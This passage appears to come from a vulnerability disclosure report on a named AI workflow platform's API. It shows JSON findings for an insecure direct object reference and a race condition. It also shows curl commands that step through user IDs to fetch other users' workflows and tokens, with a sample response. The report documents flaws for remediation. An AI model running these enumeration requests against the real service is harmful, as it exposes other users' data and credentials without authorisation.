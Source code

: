 #### **Real-World Exploitation Evidence:**
```json
{
  "timestamp": "2025-10-21T12:21:11.141433",
  "type": "IDOR",
  "url": "https://app.aixblock.io/api/v1/workflows?user_id=1",
  "payload": "user_id=1",
  "response_code": 200,
  "severity": "HIGH",
  "evidence": "Sensitive data pattern: token",
  "exploitability": "HIGH"
}
```

#### **Workflow IDOR Exploitation:**
```bash
# Test workflow access
curl -s "https://app.aixblock.io/api/v1/workflows?user_id=1"
curl -s "https://app.aixblock.io/api/v1/workflows?user_id=2"
curl -s "https://app.aixblock.io/api/v1/workflows?user_id=999"

# Expected Response:
{
  "user_id": 1,
  "workflows": [
    {
      "id": "wf_123",
      "name": "Data Processing",
      "token": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9...",
      "status": "active"
    }
  ]
}
```

---

## **📊 MEDIUM SEVERITY VULNERABILITIES - LIVE EXPLOITATION PROOFS**

### **6. Race Condition (CVSS 6.5)**

#### **Real-World Exploitation Evidence:**
```json
{
  "timestamp": "2025-10-21T12:21:40.545314",
  "type": "Race Condition",
  "url": "https://app.aixblock.io/api/v1/workflows",
  "payload": "10 simultaneous requests",
  "response_code": 200,
  "severity": "MEDIUM",
  "evidence": "10 successful responses out of 10",
  "exploitability": "MEDIUM"
}
```

